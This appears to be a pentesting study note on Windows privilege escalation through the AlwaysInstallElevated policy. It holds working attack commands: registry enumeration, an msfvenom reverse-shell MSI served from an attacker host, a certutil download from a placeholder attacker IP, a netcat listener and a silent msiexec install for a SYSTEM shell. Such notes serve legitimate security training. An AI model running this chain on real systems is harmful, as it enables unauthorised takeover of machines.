

repository: amandaguglieri/hackinglife · page: alwaysinstallelevated/index.html · generator: mkdocs

---
title: AlwaysInstallElevated
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - windows
---
# AlwaysInstallElevated

This setting can be set via Local Group Policy by setting `Always install with elevated privileges` to `Enabled` under the following paths.

- `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`
- `User Configuration\Administrative Templates\Windows Components\Windows Installer`

#### Enumerating Always Install Elevated Settings

```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Possible output:

```powershell-session

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Our enumeration shows us that the `AlwaysInstallElevated` key exists, so the policy is indeed enabled on the target system.


#### Generating MSI Package

We can exploit this by generating a malicious MSI package and execute it via the command line to obtain a reverse shell with SYSTEM privileges.

From our attacker machine:

```bash
msfvenom -p windows/shell_reverse_tcp lhost=$AttackerIP lport=9443 -f msi > aie.msi

# And serve the content
python -m http.server 8000
```

From the windows host machine:

```
certutil.exe -urlcache -split -f http://$ipAtacker:8000/aie.msi aie.msi
```

#### Executing MSI Package

We will start a netcat listener in our attacking machine:

```bash
nc -lnvp 9443
```

And execute the file from the command line like so:

```cmd-session
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```
